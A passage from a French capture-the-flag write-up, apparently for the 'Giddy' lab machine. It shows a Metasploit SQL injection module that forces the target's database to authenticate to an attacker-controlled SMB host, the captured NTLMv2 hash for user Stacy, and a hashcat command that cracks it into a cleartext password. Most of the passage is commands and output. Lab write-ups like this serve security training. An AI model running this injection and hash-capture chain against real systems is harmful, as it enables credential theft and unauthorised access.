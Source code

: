 ```plain
   DATA                                                          no        POST data, if necessary, with [SQLi] indicating the injection
   GET_PATH  /mvc/Product.aspx?ProductSubCategoryId=2;[SQLi];--  yes       The complete path with [SQLi] indicating the injection
   METHOD    GET                                                 yes       GET or POST
   Proxies                                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.104                                        yes       The target address
   RPORT     80                                                  yes       The target port (TCP)
   SMBPROXY  10.10.12.177                                        yes       IP of SMB proxy or sniffer.
   SSL       false                                               no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                         no        HTTP server virtual host

msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > exploit -j
[*] Auxiliary module running as background job 1.

[*] DONT FORGET to run a SMB capture or relay module!
[*] Attempting to force backend DB to authenticate to the 10.10.12.177
```

Il se passe pas loin d'une minute avant que le hash nous parvienne (le suspense était à son comble :D )  

```plain
msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > [*] SMB Captured - 2018-09-09 16:05:03 +0200
NTLMv2 Response Captured from 10.10.10.104:50510 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:3dd421f5a649e9d8791e12079d40deba
NT_CLIENT_CHALLENGE:0101000000000000955d6e450f49d4014a45499f2100a5a400000000020000000000000000000000
```

[Et on ne regrette pas sa soirée !](https://www.youtube.com/watch?v=XqhOTzgqHug)  

Un petit coup de *hashcat* plus tard et on a le password en clair :  

```plain
$ hashcat-cli64.bin -a 0 -m 5600 yolo_netntlmv2 /opt/wordlists/rockyou.txt
Initializing hashcat v2.00 with 4 threads and 32mb segment-size...

Added hashes from file yolo_netntlmv2: 1 (1 salts)
Activating quick-digest mode for single-hash with salt

STACY::GIDDY:1122334455667788:3dd421f5a649e9d8791e12079d40deba:0101000000000000955d6e450f49d4014a45499f2100a5a400000000020000000000000000000000:xNnWo6272k7x

All hashes have been recovered
```

Oh Oh voilà Stacy
-----------------
